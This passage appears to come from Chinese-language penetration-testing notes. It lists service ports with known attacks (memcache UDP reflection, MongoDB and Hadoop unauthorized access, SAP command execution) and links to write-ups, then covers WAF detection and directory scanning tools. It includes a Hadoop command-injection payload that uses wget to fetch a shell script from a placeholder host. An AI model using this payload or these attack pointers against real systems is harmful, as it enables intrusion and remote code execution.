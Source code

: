 11211 / memcache

未授权

UDP反射

https://shockerli.net/post/memcached-udp-reflection-attack-bug/

27017,27018 / Mongodb

未授权

注入

https://www.anquanke.com/post/id/83763

phpMoAdmin RCE

https://www.aqniu.com/threat-alert/6978.html

50000 / SAP

 SAP命令执行

https://www.secpulse.com/archives/20204.html

50070,50030 / hadoop

未授权

https://www.freebuf.com/vuls/173638.html

命令执行

host:50060/pstack?pid=123|wget http://somehost/shell.sh

https://www.seebug.org/search/?keywords=hadoop

其他

http://www.91ri.org/15441.html

#### 1.3WAF及bypass

探测WAF

Nmap探测WAF有两种脚本，一种是http-waf-detect，一种是http-waf-fingerprint。

nmap -p port --script=http-waf-detect ip

wafw00f -a example.com

sqlmap-u “http://www.vxxxx.org/ex.php?id=1” --identify-waf

bypass:

**待补充**

#### **1.4****目录、后台和敏感路径文件扫描**

御剑目录（土司专版，笔记里有）、后台扫描（图片属性地址暴露），

​    完善目录和账密字典方法：

​    {
